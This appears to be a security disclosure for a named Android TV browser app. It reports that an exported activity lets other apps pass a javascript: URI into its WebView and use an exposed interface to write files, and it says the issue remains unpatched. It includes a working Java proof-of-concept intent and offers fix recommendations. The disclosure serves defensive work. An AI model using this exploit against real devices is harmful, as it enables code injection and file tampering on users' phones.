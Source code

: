 **This remains unpatched as of Ver 5.0**

---

## Vulnerability Report: Code Injection (CWE-94) & Arbitrary File Creation

### Overview:

The `com.altamirano.fabricio.tvbrowser.MainActivity` activity is exported and can be invoked by third-party applications, exposing the app to potential attacks.

### Affected Component:
- **Component**: `com.altamirano.fabricio.tvbrowser.MainActivity`
- Ver 4.5.1 & earlier

### Code Injection Details:

A remote attacker can invoke the `MainActivity` of the `com.altamirano.fabricio.tvbrowser` app by sending an explicit intent. When a crafted URI sent via intent is subsequently passed to the WebView, JavaScript code can be executed within the app's context.

### Arbitrary File Creation via JavaScript Interface Exposure:

The `MainActivity`'s WebView exposes certain JavaScript interfaces which can lead to arbitrary file creation vulnerabilities.

**Proof of Concept (Code Injection):**

![image](https://github.com/actuator/com.altamirano.fabricio.tvbrowser/blob/main/TVBrowserDemo.gif)

```java
public void launchBrowser() {
    // Constructing the JavaScript code to directly invoke the exposed JavaScript interface method.
    String base64TestData = "VGhpcyBpcyBhIHRlc3QgZm9yIHRoZSB2dWxuZXJhYmlsaXR5IFBvQy4="; // Represents "This is a test for the vulnerability PoC."
    String jsCode = String.format("javascript:if(window.Android && typeof window.Android.getBase64FromBlobData === 'function'){ window.Android.getBase64FromBlobData('data:text/plain;base64,%s', 'test.txt'); }", base64TestData);

    Intent intent = new Intent(Intent.ACTION_VIEW);
    intent.setComponent(new ComponentName("com.altamirano.fabricio.tvbrowser", "com.altamirano.fabricio.tvbrowser.MainActivity"));
    intent.setData(Uri.parse(jsCode));
    startActivity(intent);
}
```

![TVBrowserDemo](https://github.com/actuator/com.altamirano.fabricio.tvbrowser/assets/78701239/5835748e-cd5a-4d06-bd95-d56d0700867f)

---


### Exploit Overview:
1. **Arbitrary Code Execution (ACE)**: Using the exported activity, an attacker can trigger the loading of malicious URLs, leading to code execution within the app's context.
2. **Arbitrary File Creation (AFC)**: Using the exposed JavaScript interfaces, an attacker can create or overwrite files in the Downloads folder.

Arbitrary File Creation (AFC) vulnerabilities pose serious risks, enabling malicious actors to potentially complicate digital forensics. 

### Recommendations Update:
1. **Assess Exported Activities**: Ensure activities are not unnecessarily exported. If they are, apply appropriate intent filters and permissions.
2. **Restrict JavaScript Interfaces**: If the WebView in your application supports JavaScript, ensure it doesn't expose sensitive functionality or data to the running JavaScript.


### References Update:
- [CWE-94: Improper Control of Generation of Code ('Code Injection')](https://cwe.mitre.org/data/definitions/94.html)
- [CWE-73: External Control of File Name or Path](https://cwe.mitre.org/data/definitions/73.html)



---

